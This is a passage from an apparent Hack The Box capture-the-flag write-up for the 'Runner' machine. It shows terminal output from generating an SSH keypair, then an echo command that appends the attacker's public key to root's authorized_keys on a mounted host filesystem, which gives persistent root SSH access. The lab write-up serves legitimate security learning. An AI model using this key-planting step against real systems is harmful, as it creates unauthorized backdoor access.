 ### Add ssh keys to root's authorized keys

Now I can write my ssh public key to `root`'s ssh authorized keys (For some reasons `root`'s private key doesn't work)

Generate ssh keys first

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ ssh-keygen -f bravosec
Generating public/private ed25519 key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in bravosec
Your public key has been saved in bravosec.pub
The key fingerprint is:
SHA256:m69Iq9r/ubuAOOU+i+aRdL4OjxmcKl600GKYfLjQKn8 bravosec@fsociety
The key's randomart image is:
+--[ED25519 256]--+
|                 |
|                 |
|                 |
|ooo              |
|+*o+o   S        |
|o+*O..   o       |
|o.Xo+ o o        |
|ooo%Eo + o       |
|++B+O=+.B=.      |
+----[SHA256]-----+

┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ cat bravosec.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC0rmPCu3kmjCBP+gp7pHYDg42Bz8lhbogoXv3AD76+C bravosec@fsociety
```

Write ssh keys from web console

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC0rmPCu3kmjCBP+gp7pHYDg42Bz8lhbogoXv3AD76+C bravosec@fsociety' >> /mnt/host/root/.ssh/authorized_keys
```

![](/assets/obsidian/91719f5a0076369da661c7452f6d0a4d.png)

SSH as root
